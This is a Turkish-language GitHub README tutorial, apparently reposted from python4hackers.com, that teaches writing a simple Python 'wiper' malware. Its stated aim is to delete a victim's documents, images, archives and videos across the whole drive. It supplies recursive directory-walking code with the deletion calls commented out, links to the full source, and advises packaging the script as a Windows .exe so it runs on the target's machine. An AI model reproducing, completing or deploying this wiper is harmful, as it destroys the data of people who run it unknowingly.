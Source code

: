 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Py4H Simple Wiper Malware v1
![Py Malware](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/4-Py4H_Simple_Wiper_Malware_v1/images/py-malware.jpg)

Bu yazımızda Python dilinin ne kadar kolay ve güçlü olduğunun bir kanıtını daha göreceğiz. Basit de olsa küçük bir malware programı kodlayacağız.

### **Saldırı Senaryosu:**
Kurban, Python programımızı çalıştırdığında sistemdeki tüm docx, doc, txt, xls, pdf dosyalarını imha etmek.

### **Algoritma:**
-   Başla
   -   Kök dizine in
   -   Belirtilen dosyaları bul ve sil
   -   Bitti

### **Kod Paylaşımı:**
Aşağıdaki kodlar ile kök dizine “/” indik. Bu dizin C:/ de olabilir D:/ de olabilir yani Python programımızın hangi sürücüde çalıştırılacağına bağlıdır.

	suanki_dizin = os.getcwd() #bulundugu dizin
	a = suanki_dizin.split("/")
	sayi = len(a)-1
	for i in range(0,sayi):
		os.chdir(os.pardir)

Daha sonra [benim](https://web.archive.org/web/20190701033756/http://python4hackers.com/author/oguzhan-arslan "Oğuzhan Arslan") bulup geliştirdiğim dizin taramasında kullandığım bir algoritma ile dosyalarımızı bulduk ve sildik.

	girilen_dizinler = []
	 
	def BulunanDizin(gelendizin):
		os.chdir(gelendizin)
		print("girilen dizin >> "+ gelendizin)
		girilen_dizinler.append(gelendizin)
		KontrolEt()
		os.chdir(os.pardir)
	 
	def KontrolEt():
		dosyalr = os.listdir(os.getcwd())
		for i in dosyalr:
			try:
				if re.match(".*txt",i):
					print(i) #os.remove(i)
				elif re.match(".*pdf",i):
					print(i) #os.remove(i)
				elif re.match(".*docx",i):
					print(i) #os.remove(i)
				elif re.match(".*doc",i):
					print(i) #os.remove(i)
				elif re.match(".*xls",i):
					print(i) #os.remove(i)
				elif re.match(".*jpg",i):
					print(i) #os.remove(i)
				elif re.match(".*rar",i):
					print(i) #os.remove(i)
				elif re.match(".*zip",i):
					print(i) #os.remove(i)
				elif re.match(".*mp4",i):
					print(i) #os.remove(i)
				elif os.path.isdir(i):
					if girilen_dizinler.count(i) == 0:
						BulunanDizin(i)
					else:
						pass
				else:
					pass
			except:
				pass

[Kodların Tamamına Burdan Ulaşabilirsiniz!](https://github.com/KekikAkademi/KekikPython/blob/master/4-Py4H_Simple_Wiper_Malware_v1/Py4H_Simple_Wiper_Malware_v1.py)

### **Notlar:**
   -   Tabi ki hedefteki kişinin bilgisayarında Python yüklü olmayabilir bu yüzden programımızı her Windows işletim sisteminde çalışabilmesi için pyinstaller, py2exe ya da cx_freeze modüllerinden birini kullanarak .exe dosyası haline getirmelisiniz.

   -   Şuan çok basit bir şekilde küçük bir malware yazdık, ilerleyen süreçlerde daha komplike hale getirebilirsiniz..

> Bir sonraki yazımızda görüşmek üzere.

[Kaynak](http://python4hackers.com/python-malware/py4h-simple-wiper-malware-v1.html "Saygı ve Özlemle...")
________________________________

📃 **Yandex.Disk Bünyemizde 780GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.
